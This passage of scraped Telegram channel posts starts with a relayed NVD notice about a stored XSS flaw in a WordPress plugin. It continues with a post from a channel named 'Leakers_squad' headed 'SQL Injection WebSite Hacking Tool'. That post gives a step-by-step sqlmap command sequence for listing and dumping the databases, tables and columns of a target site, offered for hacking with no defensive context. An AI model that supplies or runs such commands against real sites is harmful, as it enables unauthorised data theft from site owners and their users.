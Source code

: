 📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# cibsecurity
`2023-05-16`

* https://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2023-23709

<blockquote>
‼ CVE-2023-23709 ‼

Auth. (contributor+) Stored Cross-Site Scripting (XSS) vulnerability in Denis WPJAM Basic plugin &lt;&#61;Â 6.2.1 versions.

📖 Read

via &quot;National Vulnerability Database&quot;.
</blockquote>

---

# Leakers_squad
`2023-05-16`

* https://t.me/leakers_Squad/1841

<blockquote>
🖥 SQL Injection WebSite Hacking Tool 💻

Kali Linux

We open the terminal

sqlmap -u targetsite.com

sqlmap -u targetsite.com --dbs

sqlmap -u targetsite.com -D data name --tables

sqlmap -u targetsite.com -D data name -T tablo name --columns

sqlmap -u targetsite.com -D data name -T tablo name -C column name --dump

You don't need to build a vehicle Kali Linux is also available

Credit : @Mr_Neophyte
Contact for posting these content in your channel 

Share with Your Friends.

If you want to report any copyright violation, please write to us at  @Leakers_squad_bot and we will ensure to remove that post within 48 hours
Read this
</blockquote>
